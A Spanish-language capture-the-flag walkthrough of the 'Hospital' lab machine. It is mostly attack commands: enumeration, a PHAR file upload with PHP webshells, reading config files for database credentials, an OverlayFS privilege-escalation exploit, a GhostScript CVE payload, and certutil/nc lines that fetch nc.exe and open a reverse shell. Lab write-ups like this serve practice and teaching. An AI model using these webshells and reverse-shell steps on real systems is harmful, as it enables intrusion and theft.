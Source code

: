 # Hospital - TryHackMe Walkthrough

**IP:** 10.10.11.241  
**Dominio:** hospital.htb

---

## 1. Enumeración Inicial

### SMB & RPC
```bash
smbclient -L 10.10.11.241
rpcclient -U "" 10.10.11.241 -N
```

---

## 2. Descubrimiento Web

### Directorios
```bash
wfuzz -c --hc=404,403 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://hospital.htb/FUZZ
```

```bash
gobuster dir -u http://hospital.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15 -x php,html,txt -q
```

---

## 3. Webshell vía PHAR
Subida de archivo `.phar`:
```
http://hospital.htb:8080/uploads/not.a.shell.phar/?cmd=whoami
```

Contenido de shell:
```php
<?php echo fread(popen($_REQUEST['cmd'], "r"), 1000000); ?>
```

---

## 4. Revisión del servidor
```bash
cat /etc/apache2/sites-enabled/000-default.conf
cat /var/www/html/config.php
```

Credenciales:
```php
DB_USER: root
DB_PASS: my$passwd!
```

Acceso a MySQL:
```bash
mysql -uroot -p
# contraseña: my$passwd!
```

Consulta:
```sql
use hospital;
select * from users;
```

---

## 5. Escalada de Privilegios - OverlayFS
Exploit:
- [GitHub CVE-2023-2640 & CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)

```bash
chmod +x exploit.sh
./exploit.sh
```

---

## 6. Cracking /etc/shadow
Credencial encontrada:
```
drwilliams:passwd
```

Verificación:
```bash
rpcclient -U 'drwilliams%passwd' 10.10.11.241 -c 'enumdomusers'
```

---

## 7. Kerberoasting / SPNs
```bash
impacket-GetNPUsers hospital.htb/ -no-pass -usersfile users.txt
```

---

## 8. GhostScript (CVE-2023-36664)

Payload postscript (`.eps`) con reverse shell en PowerShell:
```bash
python3 CVE_2023_36664_exploit.py -g -p "<powershell_payload>" -x ps
```

Conexión:
```bash
rlwrap -cAr nc -nlvp 1234
```

---

## 9. Webshell persistente
```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Subida y ejecución:
```bash
curl http://10.10.15.53/cmd.php -o cmd.php
```

Uso:
```
https://hospital.htb/cmd.php?cmd=tasklist
```

---

## 10. Reverse Shell desde Windows
```powershell
certutil.exe -f -urlcache -split http:/[ip]:80/nc.exe nc.exe
nc.exe -e cmd [ip] 443
```

---

